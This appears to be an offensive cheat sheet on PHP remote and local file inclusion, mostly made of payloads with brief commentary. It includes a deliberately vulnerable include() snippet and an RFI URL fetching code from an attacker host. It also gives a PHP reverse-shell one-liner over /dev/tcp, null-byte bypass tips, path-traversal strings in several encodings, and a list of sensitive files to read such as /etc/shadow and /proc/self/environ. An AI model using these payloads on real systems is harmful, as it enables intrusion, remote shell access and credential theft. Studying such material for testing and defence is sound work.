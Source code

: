 This is how they work.

So you have an unsanitized parameter, like this
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```
Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.
```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```
And evil.txt will look like something like this:
```
<?php echo shell_exec("whoami");?>
```
`Or just get a reverse shell directly like this:`
```
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```
So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.
Avoid extentions

Remember to add the nullbyte %00 to avoid appending .php. This will only work on php before version 5.3.

If it does not work you can also add a ?, this way the rest will be interpreted as url parameters.



-------------------------------------------------------------------------------------------------------------
# Local file inclusion (LFI) payloads

#### normal

```
../../../../../../etc/passwd
```
```
....//....//....//....//....//etc/passwd
```
#### double url encoding
```
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd
```

#### with Unicode charecters

```
..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8etc/passwd
```

You can also try to use those insted of `/etc/passwd`
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/var/log/apache2/access.log
/etc/apache2/sites-enabled/000-default.conf
/etc/apache2/sites-enabled/<site-from-000-df-comment>
```